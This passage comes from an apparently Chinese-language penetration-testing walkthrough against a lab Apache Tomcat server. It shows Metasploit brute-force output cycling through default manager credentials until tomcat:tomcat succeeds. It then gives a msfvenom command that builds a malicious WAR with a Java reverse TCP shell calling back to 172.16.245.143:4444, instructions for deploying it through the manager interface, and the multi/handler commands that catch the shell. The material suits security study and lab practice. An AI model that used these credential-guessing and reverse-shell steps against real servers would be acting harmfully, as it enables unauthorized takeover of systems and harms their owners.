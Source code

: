 ```txt
[-] 10.211.55.3:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 10.211.55.3:8080 - Login Successful: tomcat:tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/tomcat_mgr_login) > 
```

![Snipaste_2018-10-18_02-23-37.png](https://whitecell.io/upload/attach/201810/151_SDPK2EYHQTW8ET4.png "Snipaste_2018-10-18_02-23-37.png")

---

## 利用漏洞

生成包含反向TCP shell的恶意WAR文件。相应地配置本地IP和端口。

```txt
msfvenom -p java/shell_reverse_tcp LHOST=172.16.245.143 LPORT=4444 -f war > shell3.war
```

在Metasploit中设置处理程序然后访问manger接口以部署恶意WAR。上传后，请务必至少访问一次恶意URL（在应用程序列表中可用）以使WAR执行。你应该在Metasploit处理程序中收到一个shell。

```txt
use exploit/multi/handler
set PAYLOAD java/shell_reverse_tcp
set LHOST 172.16.245.143
set LPORT 4444
set ExitOnSession false
exploit -j -z
```


[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2017-08-17/2